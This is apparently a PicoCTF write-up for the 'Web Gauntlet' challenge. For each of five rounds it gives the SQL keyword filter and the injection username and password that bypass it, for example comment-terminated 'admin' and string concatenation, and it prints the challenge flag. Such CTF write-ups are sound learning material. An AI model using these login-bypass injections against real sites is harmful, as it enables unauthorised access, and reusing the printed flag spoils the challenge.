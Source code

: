# Web Gauntlet
* Source: PicoCTF
* Link: [PicoCTF.org](https://picoctf.org/)
* Challenge: Web Gauntlet
* Category: Web Exploitation
* Points: 200
* Date: 08-04-2022
* Author: [DjikstraCS](https://github.com/DjikstraCS)

---
## Problem:
![](./attachments/Pasted%20image%2020220407232135.png)

---
## Hints:
1. You are not allowed to login with valid credentials.
2. Write down the injections you use in case you lose your progress.
3. For some filters it may be hard to see the characters, always (always) look at the raw hex in the response.
4. sqlite
5. If your cookie keeps getting reset, try using a private browser window.

---
## Solution:
This is an QSL Injection challenge, we need to get past the filers.

We get two inks
The first is to a login page, the second is telling us the first filter is 'or', that means that the classic SQL Injection `' or 1=1--` won't work.

![](./attachments/Pasted%20image%2020220408002633.png)

### Round 1:

Filter: `or`

Username: `admin'--`

Password: `1`

### Round 2:

Filter: `or and like = --`

Username: `admin';`

Password: `1`

### Round 3:

Filter: `or and = like > < --`

Username: `admin';`

Password: `1`

### Round 4:

Filter: `or and = like > < -- admin`

Username: `ad'||'min';`

Password: `1`

### Round 5:

Filter: `or and = like > < -- union admin`

Username: `ad'||'min';`

Password: `1`

![](./attachments/Pasted%20image%2020220408002116.png)

And the .php file.

![](./attachments/Pasted%20image%2020220408001959.png)

We can see the full filers throughout the challenge, and at the bottom is the flag!

**Flag:** `picoCTF{y0u_m4d3_1t_96486d415c04a1abbbcf3a2ebe1f4d02}`

---
**Tags:** [[PicoCTF]] [[SQL Injection]]